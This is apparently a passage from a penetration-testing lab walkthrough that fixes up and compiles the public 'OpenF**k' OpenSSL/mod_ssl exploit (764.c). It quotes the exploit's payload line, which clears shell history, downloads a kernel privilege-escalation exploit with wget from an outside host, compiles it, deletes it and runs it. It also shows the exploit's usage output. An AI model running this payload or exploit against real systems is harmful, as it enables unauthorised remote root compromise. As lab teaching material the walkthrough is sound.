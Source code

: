__2) Update the URL of the C File:__

First search for `wget` and find the following line:

```c
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```

Then replace the URL with this one:

```http
http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
```

__3) Get the libssl-dev lib__

To install the library, type the following in your [CLI](https://en.wikipedia.org/wiki/Command-line_interface):

Just a heads up: exploit (764) doesn't seem to be compatible with the newer version of libssl, so you need to install v1.0.

Props to [Kimput](https://pentestimonials.wordpress.com/) for pointing this out!

```console
root@kali:~# apt-get install libssl1.0-dev
```

__4) Update declaration of variables:__

On line 916, change:

```c
unsigned char *p, *end;
```

By adding __const__:

```c
const unsigned char *p, *end;
```

__5) Go ahead and save the file, compile the code, and we are done!__

```console
root@kali:~# gcc -o OpenFu**k 764.c -lcrypto
```

__NOTE:__ 764.c is the file that I saved my exploit script to. __\-o__ just means to output to a new exactuable called OpenF\*\*k. 

And yes - I did redact the words, just trying to keep it professional here folks! :)

Great! Now that we have our compiled exploit code, let's go ahead and run it to see its usage.

```console
root@kali:~# ./OpenF**k 

*******************************************************************
* OpenF**k v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./OpenF**k target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
```